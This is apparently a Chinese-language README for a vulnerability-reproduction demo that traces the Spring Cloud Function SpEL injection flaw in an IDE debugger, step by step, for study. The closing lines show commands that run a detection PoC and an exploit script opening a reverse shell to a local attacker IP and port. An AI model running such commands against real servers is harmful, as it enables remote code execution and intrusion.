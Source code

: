 # 关于项目

一个简单的SpringBoot Demo用于复现学习 [Spring Cloud Function SPEL表达式注入漏洞](https://www.anquanke.com/post/id/271221)

## 漏洞信息

### 漏洞名称

Spring Cloud Function SPEL表达式注入漏洞

### 漏洞描述

Spring框架为现代基于java的企业应用程序(在任何类型的部署平台上)提供了一个全面的编程和配置模型。

Spring Cloud 中的 serveless框架 Spring Cloud Function 中的 RoutingFunction 类的 apply 方法将请求头中的“spring.cloud.function.routing-expression”参数作为 Spel 表达式进行处理，造成Spel表达式注入，攻击者可通过该漏洞执行任意代码。

### 利用条件
3.0.0.RELEASE <= Spring Cloud Function <= 3.2.2

### 环境搭建
在官方网页新建一个 Spring boot 项目(https://start.spring.io/)、使用idea启动。

### 修改 pom.xml 配置文件

编译项目成功后，启动 http://127.0.0.1:8080，出现 Whitelabel Error Page 页面表示成功。

### 漏洞分析（利用链跟踪）

一般步骤：
```
1. 搭建测试环境（可用IDE调试）
2. 验证触发漏洞的poc/exp  `spring_cloud_function_spel_poc.py`
3. 动态单步调试（通过IDE以Debug模式跟踪调试，观察参数变化）
```
[spring_cloud_function_spel_poc.py](../spring_cloud_function_spel_poc.py)

1.看官方的补丁，这个commit还是挺明显的。
- [spring-cloud-function官方修复记录](https://github.com/spring-cloud/spring-cloud-function/commit/0e89ee27b2e76138c16bcba6f4bca906c4f3744f)

2.设置断点
进入springframework/cloud/function/context/config/RoutingFunction文件，在apply()方法入口处添加断点，然后IDEA开debug模式运行demo，再运行poc触发断点调试。
![](https://cdn.jsdelivr.net/gh/TesterCC/pic_bed3/20220406095930.png)

可以看到headers中携带了构造的参数

![](https://cdn.jsdelivr.net/gh/TesterCC/pic_bed3/20220406100556.png)

前面的一些参数检查可以直接step over过，但要注意进入到springframework/cloud/function/context/config/RoutingFunction/functionFromExpression()方法。

![](https://cdn.jsdelivr.net/gh/TesterCC/pic_bed3/20220406101032.png)

routingExpression 会做为参数传入到 springframework/expression/common/TemplateAwareExpressionParser/parseExpression()方法中。
![](https://cdn.jsdelivr.net/gh/TesterCC/pic_bed3/20220406101220.png)

判读其context是否为null，不为null再进入方法
![](https://cdn.jsdelivr.net/gh/TesterCC/pic_bed3/20220406101541.png)

进入springframework/expression/spel/standard/SpelExpressionParser/doPareExpression() 会 new 一个 InternalSpelExpressionParser 类调用 doPareExpression() ，继续step into。
![](https://cdn.jsdelivr.net/gh/TesterCC/pic_bed3/20220406101818.png)

在springframeworl/expression/spel/stand/InternalSpelExpressionParser/doParseExpression()方法中、会在tokenizer.process()中 对token进行 源码与字节码的判断操作、继续向下。
![](https://cdn.jsdelivr.net/gh/TesterCC/pic_bed3/20220406101954.png)

跟进到 springframwork/expression/spel/standard/SpelExpression/SpelExpression()，会new 一个SpelExpression()
![](https://cdn.jsdelivr.net/gh/TesterCC/pic_bed3/20220406102343.png)

在SpelExpression()方法中会将将表达式赋值到 this.expression 继续跟进 return到 springframework/expression/spel/standard/SpelpressionParser/doParseExpression()、
继续return到springframework/expression/common/TemplateAwareExpressionPareser/pareExpression()、
return springframework/cloud/function/context/config/RoutingFunction/functionFromExpression()

![](https://cdn.jsdelivr.net/gh/TesterCC/pic_bed3/20220406102659.png)

在functionFromExpression()方法中会进入MessageUtils.toCaseInsensitiveHeadersStructure()。
![](https://cdn.jsdelivr.net/gh/TesterCC/pic_bed3/20220406102834.png)

继续step into到调用MessageStructureWithCaseInsensitiveHeaderKeys()，跟进到 putAll()方法，获取message中头信息。
![](https://cdn.jsdelivr.net/gh/TesterCC/pic_bed3/20220406103046.png)

最终进入漏洞触发点，触发漏洞。

![](https://cdn.jsdelivr.net/gh/TesterCC/pic_bed3/20220406103854.png)

![](https://cdn.jsdelivr.net/gh/TesterCC/pic_bed3/20220406104144.png)

## 问题解决
- [java: 错误: 无效的源发行版：15](https://blog.csdn.net/qq_42025798/article/details/113917231)

## REF

- [Spring Cloud Function SPEL表达式注入漏洞](https://www.anquanke.com/post/id/271221)
- [SpringCloud Function SpEL漏洞环境搭建+漏洞复现](https://www.anquanke.com/post/id/271167)
- [Spring-cloud-function-SpEL-RCE](https://github.com/chaosec2021/Spring-cloud-function-SpEL-RCE)


```
开始检测漏洞并反弹shell
## 检测漏洞
python3 Spel_RCE_POC.py url.txt
## 反弹shell
python3 Spel_RCE_Bash_EXP.py http://192.168.160.146:9000/ 192.168.160.241 7777
```

